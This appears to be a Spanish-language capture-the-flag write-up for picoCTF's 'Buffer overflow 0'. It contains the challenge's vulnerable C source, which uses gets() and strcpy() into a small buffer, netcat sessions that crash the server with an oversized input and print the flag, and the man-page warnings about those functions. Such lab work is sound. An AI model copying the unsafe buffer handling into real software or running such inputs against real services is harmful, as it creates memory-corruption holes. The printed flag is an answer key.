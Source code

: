 # Buffer overflow 0

## Objetivos
Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/520/vuln). You can view source [here](https://artifacts.picoctf.net/c/520/vuln.c). And connect with it using: `nc saturn.picoctf.net 53935`


## Solución 
```java
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}

```

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ nc saturn.picoctf.net 53935
Input: steelerssonunequipomuyfregonaunqueahorandenmanvanallegarasercampeonesdelsuperbowlproximamenteasiesxdbatmanyspidermansonlosmejoressuperheroesybuenoyoahoritatengomuchofrioperonimodoasieslavidaymañanajuegamexicoenelmundialdeqatar2020uiuiuiwu8u38ue8uwoueoucuoduosudosufodufosufondjsnjdfggvcgsjdgfhdsjhdgfsjhdfgdhsgfjfhghsgfj
picoCTF{ov3rfl0ws_ar3nt_that_bad_a065d5d9}

```

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ nc saturn.picoctf.net 53935 <<< $(python3 -c "print('A'*200)")
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_a065d5d9}


```
## Notas adicionales 
Para este reto tenemos que sobrepasar un buffer, el programa que nos proporcionan hacen uso de gets() y strcpy, usarlos tiene sus advertencias que son lo siguientes:  

man gets :
BUGS
       Never use gets().  Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely
       dangerous to use.  It has been used to break computer security.  Use fgets() instead.


man strcpy:

BUGS
       If the destination string of a strcpy() is not large enough, then anything might happen.  Overflowing fixed-length string buffers is a favorite cracker technique for taking complete control of the machine.  

Entonces una forma es escribir un buffer mas grande de 100 caracteres y de esta forma conseguir la bandera 

https://es.wikipedia.org/wiki/SIGSEGV